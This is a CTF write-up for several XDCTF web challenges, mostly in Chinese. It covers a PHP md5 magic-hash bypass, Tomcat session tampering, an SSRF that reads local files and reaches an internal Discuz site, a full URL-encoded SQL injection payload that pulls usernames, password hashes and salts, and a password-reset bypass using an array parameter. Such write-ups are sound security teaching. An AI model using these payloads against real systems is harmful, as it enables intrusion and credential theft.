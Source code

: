 ##XDCTF

###web1-100
	反混淆
```php
$test=$_GET['test']; $test=md5($test); if($test=='0') { print "flag{xxxxxx}"; } else print "you are falied!"; print $test; 
```


	md5('240610708') 's result is 0e462097431906509019562988736854.

	md5('QNKCDZO') 's result is 0e830400451993494058024219903391

	flag:XDCTF{XTchInaIqLRWlJF0RI59aoVr5atctVCT}


###web1-200
	
	tomcat，session
	
	http://flagbox-23031374.xdctf.win:1234/examples/servlets/servlet/SessionExample
	给自己添加个login=true,user=Administrator
	XDCTF{2b5b7133402ecb87e07e85bf1327bd13}

###web1-300

	.user.ini找到wwwroot目录
	link参数可SSRF
	GET /index.php?link=file:///home/wwwroot/133.130.90.188/index.php
	查hosts发现		9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com
	扫端口发现这个站在3389
	十个discuz，read有个.user.ini，看看这个有没有
	link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:3389/.user.ini
	在这里： open_basedir=/home/wwwroot/dz72:/tmp/:/proc/
	直接打exp

	http://133.130.90.188/?link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:3389/faq.php?action%3Dgrouppermission%26gids%5B99%5D%3D%2527%26gids%5B100%5D%5B0%5D%3D%2529%2520and%2520%2528select%25201%2520from%2520%2528select%2520count%2528*%2529%2Cconcat%2528%2528select%2520concat%25280x5E5E5E%2Cusername%2C0x3a%2Cpassword%2C0x3a%2Csalt%2529%2520from%2520cdb_uc_members%2520limit%25200%2C1%2529%2Cfloor%2528rand%25280%2529*2%2529%2C0x5E%2529x%2520from%2520information_schema.tables%2520group%2520by%2520x%2529a%2529%2523

	admin:XDCTF{bf127a6ae4e2_ssrf_to_sqli}:99bc3c1

###web2

	发现.git存在，不过都是delete file
	到1.0里面对着hash把文件拖回来
	就可以代码审计了。。。

###web2-100
	问题在Auth.php  public function handle_resetpwd()
	注册->申请改密码->改密码的链接抓包->email=xdsec-cms@xdctf.com&verify[]=fb02d3d0965f0d24b90409dba97e0cb2->登录即可
	Congratulation, this is the [XDSEC-CMS] flag 2

	XDCTF-{i32mX4WK1gwEE9S9Oxd2}

	hint:
	admin url is /th3r315adm1n.php

###web2-200
	
	这个在index.php里
	XDCTF-{raGWvWahqZjww4RdHN90}



